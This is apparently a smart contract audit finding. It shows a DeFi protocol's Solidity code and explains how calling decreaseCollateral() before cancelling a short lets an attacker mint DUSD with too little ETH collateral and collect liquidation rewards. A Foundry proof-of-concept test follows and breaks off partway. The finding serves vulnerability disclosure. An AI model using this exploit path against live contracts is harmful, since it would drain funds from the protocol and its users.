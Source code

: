 ```solidity
964:                         shorter,
965:                         shortRecordId,
966:                         SR.FullyFilled,
967:                         collateralDiff,
968:                         debtDiff,
969:                         Asset.ercDebtRate,
970:                         Vault.dethYieldRate,
971:                         0
972:                     );
973: 
974:                     Vault.dethCollateral += collateralDiff;
975:                     Asset.dethCollateral += collateralDiff;
976:                     Asset.ercDebt += debtDiff;
977: 
978:                     // @dev update the eth refund amount
979:                     eth -= collateralDiff;
980:                 }
981:                 // @dev virtually mint the increased debt
982:                 s.assetUser[asset][shorter].ercEscrowed += debtDiff;
983:             } else {

```

The [decreaseCollateral()](ShortRecordFacet.sol#L83-L107) function lets the caller reduce the collateral he has in the Short Record.

An attacker can use `decreaseCollateral()` to reduce the collateral of the Short Record before cancelling. Thus, removing the collateral added for `minShortErc` and the protocol ends up minting DUSD with less Ethereum collateral.

The attacker earns the DUSD minted while providing less collateral value. The Short Record will become liquidatable and the attacker can further liquidate it to earn liquidation rewards.

### Impact

The protocol mints DUSD for free and pays liquidation rewards when the bad debt position is liquidated.

### Proof of Concept

To execute the POC the Short Record has to have debt so that `decreaseCollateral()` and `cancelShort()` can be called on it successfully. To do this, the POC creates two Short Orders, a normal Short Order and the other with CR < 1. It then uses a bid order to fill the normal Short Order and a tiny amount of the order with CR < 1.

The test can be run in the `Shorts.t.sol` file.

```solidity
    // Add the import below
    // import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";

    function test_StealDUSD() public {
        // set default Collateral Ratios
        vm.startPrank(owner);
        diamond.setInitialCR(asset, 170);
        diamond.setLiquidationCR(asset, 150);
        vm.stopPrank();

        initialCR = 170;
        uint80 price = DEFAULT_PRICE;
        uint88 amount = DEFAULT_AMOUNT;
        uint88 minShortErc = 2000 ether;

        // add a normal short order to fill the bid
        fundLimitShortOpt(price, amount, sender);
        // sender has 0 ethEscrowed
```